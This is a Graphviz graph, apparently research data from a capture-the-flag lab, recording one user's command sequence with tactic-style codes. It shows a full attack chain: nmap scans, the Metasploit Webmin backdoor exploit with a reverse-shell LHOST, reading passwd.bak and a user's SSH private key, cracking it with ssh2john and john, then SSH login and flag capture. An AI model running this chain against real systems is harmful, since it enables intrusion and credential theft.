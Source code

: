 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 M0 "]
	5 [label="nmap -sC 172.18.1.5 M0 "]
	6 [label="nmap -sV 172.18.1.5 M1 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 M1 "]
	8 [label="msfconsole M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin M3 "]
	13 [label="searchsploit webmin M3 "]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb M8 "]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb M8 "]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb M8 "]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ M8 "]
	18 [label="ls A10 "]
	19 [label="./47230.rb U"]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb M8 "]
	21 [label="search 1.920 A3 "]
	22 [label="ruby 47230.rb U"]
	23 [label="./47230.rb U"]
	24 [label="nano 47230.rb U"]
	25 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	26 [label="show options M5 "]
	27 [label="set LHOST=10.1.135.83 M6 "]
	28 [label="show options  M5 "]
	29 [label="set LHOST=10.1.153.83 M6 "]
	30 [label="set LHOST 10.1.153.83 M6 "]
	31 [label="exploit M8 "]
	32 [label="show options M5 "]
	33 [label="set RHOSTS 172.18.1.5 M6 "]
	34 [label="exploit M8 "]
	35 [label="set RPORT 10000 M6 "]
	36 [label="exploit  M8 "]
	37 [label="show options  M5 "]
	38 [label="set LHOST 192.168.129.103 M6 "]
	39 [label="exploit  M8 "]
	40 [label="cat /root/flag A1 A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A1 A9 A11 A12 A17 "]
	43 [label="cat webmin.schema M1 "]
	44 [label="cat help A1 A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A1 A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	48 [label="cat config A1 A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema M1 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A1 A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A1 A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	59 [label="grep -rnw /root/ U"]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE A4 "]
	61 [label="ls A10 "]
	62 [label="cat FILE A1 A9 A11 A12 A17 "]
	63 [label="grep -rnw /root/ -e '[0-9]+([^0-9]+[0-9]+){4}' U"]
	64 [label="ls A10 "]
	65 [label="y U"]
	66 [label="cd /root/ U"]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt M9 "]
	69 [label="ifconfig U"]
	70 [label="nmap 172.18.1.5/24 M0 "]
	71 [label="ps aux U"]
	72 [label="ifconfig U"]
	73 [label="nmap 172.18.1.5 M0 "]
	74 [label="nmap 172.18.1.5/24 M0 "]
	75 [label="nmap 172.18.1.1 A0 A1 "]
	76 [label="nmap 172.18.1.1/24 A0 A1 "]
	77 [label="nmap 172.18.1.5 M0 "]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A1 A9 A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt M9 "]
	81 [label="ls A10 "]
	82 [label="cd /root/ U"]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt M9 "]
	85 [label="ls A10 "]
	86 [label="ifconfig U"]
	87 [label="fping -ag 172.18.1.5/24 U"]
	88 [label="apt get-install nmap A0 A1 "]
	89 [label="nmap A0 A1 "]
	90 [label="ls A10 "]
	91 [label="cd /var U"]
	92 [label="ls A10 "]
	93 [label="cd webmin U"]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	96 [label="clear U"]
	97 [label="export TERM=xterm U"]
	98 [label="clear U"]
	99 [label="l U"]
	100 [label="ls A10 "]
	101 [label="cd .. U"]
	102 [label="ls A10 "]
	103 [label="cd backups U"]
	104 [label="ls A10 "]
	105 [label="cd /home U"]
	106 [label="ls A10 "]
	107 [label="cd alice U"]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	111 [label="cd .. U"]
	112 [label="ls A10 "]
	113 [label="cd bob U"]
	114 [label="ls A10 "]
	115 [label="cd .. U"]
	116 [label="cd debian U"]
	117 [label="ls A10 "]
	118 [label="cd .. U"]
	119 [label="cd eve U"]
	120 [label="ls A10 "]
	121 [label="cd .. U"]
	122 [label="cd bob U"]
	123 [label="cd /var U"]
	124 [label="ls A10 "]
	125 [label="cd local U"]
	126 [label="ls A10 "]
	127 [label="cd .. U"]
	128 [label="cd webmin U"]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	132 [label="ls A10 "]
	133 [label="nmap A0 A1 "]
	134 [label="ls A10 "]
	135 [label="cd .. U"]
	136 [label="ls A10 "]
	137 [label="cd backusp U"]
	138 [label="ls A10 "]
	139 [label="cd backups U"]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	142 [label="clear U"]
	143 [label="ls A10 "]
	144 [label="cd .. U"]
	145 [label="cd .. U"]
	146 [label="ls A10 "]
	147 [label="cd /home U"]
	148 [label="ls A10 "]
	149 [label="cd /home U"]
	150 [label="ls A10 "]
	151 [label="cd alice U"]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	155 [label="cd .. U"]
	156 [label="ls A10 "]
	157 [label="cd bob U"]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A1 A9 A11 A12 A17 "]
	161 [label="cd .. U"]
	162 [label="ls A10 "]
	163 [label="cd debian U"]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A1 A9 A11 A12 A17 "]
	169 [label="cd .ansible U"]
	170 [label="ls A10 "]
	171 [label="cd tmp U"]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	174 [label="cd .. U"]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	177 [label="cd .. U"]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	181 [label="ls A10 "]
	182 [label="msfconsole M2 "]
	183 [label="use unix/webapp/webmin_backdoor M4 "]
	184 [label="show options M5 "]
	185 [label="set RHOSTS 172.18.1.5 M6 "]
	186 [label="set LHOST 10.1.135.83 M6 "]
	187 [label="set RPORT 10000 M6 "]
	188 [label="cat .progle A1 A9 A11 A12 A17 "]
	189 [label="ls A10 "]
	190 [label="cd /root/ U"]
	191 [label="export TERM=xterm U"]
	192 [label="clear U"]
	193 [label="ls A10 "]
	194 [label="cd /home U"]
	195 [label="ls A10 "]
	196 [label="cd eve U"]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history M11 "]
	200 [label="cd /var/www U"]
	201 [label="ls A10 "]
	202 [label="cd /var U"]
	203 [label="ls A10 "]
	204 [label="cd webmin U"]
	205 [label="ls A10 "]
	206 [label="cat blocked A1 A9 A11 A12 A17 "]
	207 [label="cd blocked U"]
	208 [label="cd .. U"]
	209 [label="ls A10 "]
	210 [label="cd local U"]
	211 [label="ls A10 "]
	212 [label="cd .. U"]
	213 [label="ls A10 "]
	214 [label="scp 10.1.17.4 U"]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	218 [label="cd backups U"]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	221 [label="ls A10 "]
	222 [label="cd .. U"]
	223 [label="l U"]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	226 [label="cd local U"]
	227 [label="ls A10 "]
	228 [label="cd .. U"]
	229 [label="cd log U"]
	230 [label="ls A10 "]
	231 [label="cat user.log A1 A4 A9 A11 A12 A17 "]
	232 [label="ls A10 "]
	233 [label="cd .. U"]
	234 [label="l U"]
	235 [label="ls A10 "]
	236 [label="cd lock U"]
	237 [label="l U"]
	238 [label="sls A10 "]
	239 [label="cd .. U"]
	240 [label="ls A10 "]
	241 [label="cd mail U"]
	242 [label="ls A10 "]
	243 [label="cd .. U"]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	246 [label="cd webmin U"]
	247 [label="ls A10 "]
	248 [label="cd .. U"]
	249 [label="ls A10 "]
	250 [label="ifconfig U"]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	254 [label="cd /home U"]
	255 [label="ls A10 "]
	256 [label="cd eve U"]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	259 [label="exploit M8 "]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 M16 "]
	261 [label="cd /home/eve U"]
	262 [label="ls A10 "]
	263 [label="cd .ssh A16 "]
	264 [label="l U"]
	265 [label="ls A10 "]
	266 [label="ssh -i id_rsa eve@10.1.17.4 M16 "]
	267 [label="cat id_rsa M12 "]
	268 [label="ssh2john A14 A16 "]
	269 [label="cat id_rsa M12 "]
	270 [label="touch id_rsa U"]
	271 [label="nano id_rsa U"]
	272 [label="nano id_rsa U"]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa M13 "]
	276 [label="python ssh2john.py id_rsa > hash M13 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa M12 "]
	281 [label="john hash A14 "]
	282 [label="cd /usr/share/ U"]
	283 [label="ls A10 "]
	284 [label="cd wordlists/ U"]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt M14 "]
	287 [label="ssh -i id_rsa eve@10.1.17.4 M16 "]
	288 [label="ls A10 "]
	289 [label="cat top-secret A1 A9 A11 A12 A17 "]
	290 [label="cd top-secret U"]
	291 [label="ls A10 "]
	292 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	256 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 261 [constraint=false]
	261 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 264 [constraint=false]
	264 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 270 [constraint=false]
	270 -> 271 [constraint=false]
	271 -> 272 [constraint=false]
	272 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 282 [constraint=false]
	282 -> 283 [constraint=false]
	283 -> 284 [constraint=false]
	284 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 290 [constraint=false]
	290 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
